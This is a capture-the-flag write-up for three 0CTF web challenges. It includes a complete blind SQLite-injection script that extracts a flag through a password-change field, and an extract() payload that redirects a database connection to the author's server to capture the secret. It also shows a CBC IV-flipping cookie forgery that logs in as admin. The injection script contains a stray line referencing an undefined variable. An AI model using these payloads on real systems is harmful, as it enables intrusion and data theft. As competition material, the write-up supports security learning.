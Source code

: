 `https://ctf.0ops.sjtu.cn/`
Participated as Ad Victoriam

## Lily (150pt)

There is nothing much to do in this challenge, since there are limited inputs to check vulnerabilities.
After few trials of injecting invalid inputs, you may see that the `/modify` is vulnerable to SQLi attacks.

As you analyze the sql mechanism, you may see that the service associates accounts with SQLite, and this can be checked by executing `sqlite_version()` command from the password input.

Through several SQLite Injections, you will be able to find out the table `flag` and the column `flag`.
You will be able to leak the flag by sqlite blind sql injection.

```
import urllib2
import urllib
import sys

character = ['0','1','2','3','4','5','6','7','8','9','A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','-','_','{','}','?']
flag = ""
count = 0

if(1==1):
    for i in xrange(1,32):
        for j in character:
            count += 1
            payload = "0' or substr((select flag from flag limit 0,1)," + str(i) + ",1)='" + str(j) + "' or '0"
            # register
            register_data = values = {'username' : 'stypr' + str(count),
                        'password' : 'password',
                        'email' : 'root@stypr.com'}
            register_data = urllib.urlencode(register_data)
            register = urllib2.Request("http://202.112.28.113:5000/register", register_data)
            register_response = urllib2.urlopen(register)
            register_cookie = register_response.headers.get('Set-Cookie')
            register_response = register_response.read()

            # auth
            auth_data = values = {'username' : 'stypr' + str(count),
                                    'password' : 'password'}
            auth_data = urllib.urlencode(auth_data)
            auth = urllib2.Request("http://202.112.28.113:5000/login", auth_data)
            auth.add_header('Cookie', register_cookie)
            auth_response = urllib2.urlopen(auth)
            auth_cookie = auth_response.headers.get('Set-Cookie')
            auth_response = auth_response.read()

            # modify
            modify_data = values = {'password' : str(payload)}
            print(modify_data)
            modify_data = urllib.urlencode(modify_data)
            modify = urllib2.Request("http://202.112.28.113:5000/modify", modify_data)
            modify.add_header('Cookie', auth_cookie)
            modify_response = urllib2.urlopen(modify)
            modify_cookie = modify_response.headers.get('Set-Cookie')
            modify_response = modify_response.read()
            username = 'haroldie' + str(choice)

            # reauth
            reauth_data = values = {'username' : 'stypr' + str(count),
                                    'password' : '1'}
            reauth_data = urllib.urlencode(reauth_data)
            reauth = urllib2.Request("http://202.112.28.113:5000/login", reauth_data)
            reauth.add_header('Cookie', modify_cookie)
            reauth_response = urllib2.urlopen(reauth)
            reauth_cookie = reauth_response.headers.get('Set-Cookie')
            reauth_response = reauth_response.read()

            if "Invalid password" in reauth_response:
               print("False")
            else:
               flag += str(j)
               print("flag found: " + flag)
               break
```

--

## Forward (250pt)

As you analyze the sourcecode from `http://202.112.28.121/admin.php?view-source`, 
you may see that the website is vulnerable with the extract function. 

`extract($_GET); // this is my backdoor :)`

As we look further, we can see that the key and the database is included before the `extract` function,
which would let us to modify `$host` variable, `$key` variable and other variables.

By redirecting the host to your own server and manipulating the `$key` variable, you will be able to leak the flag by performing a Man-in-the-middle attack.

`Payload: http://202.112.28.121/admin.php?_POST[key]=1&key=1&debug=true&nonce=&host=stypr.com`

```
# tcpdump -vv -w ~/final.log

...

https://www.cloudshark.org/captures/2c438d32dfc0?filter=mysql

...

def.forward.flag.flag.flag.flag...0................"......0ctf{w3ll_d0ne_guY}.......".

```


```
- cbc padding vulnerability
    $ python
    ... (stripped - it does "plaintext xor iv xor fake_text" to create a fake iv) ...
    >>> print(base64.b64encode(malformed_iv+original_data))
        2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo=

- setting up the cookie (put this on a javascript console)
    document.cookie="auth=2zSNdk462MFkrqqwXK1Uut9d81nyZ7RGbV2q7PDX4uo;"

- the http response
    <h2>Logged in as admin</h2> 
    ...
    <span class="badge badge-important">1</span><span class="btn btn-link" onclick="play('the_owls_are_watching_again')">THIS IS THE KEY</span></br></br>
```
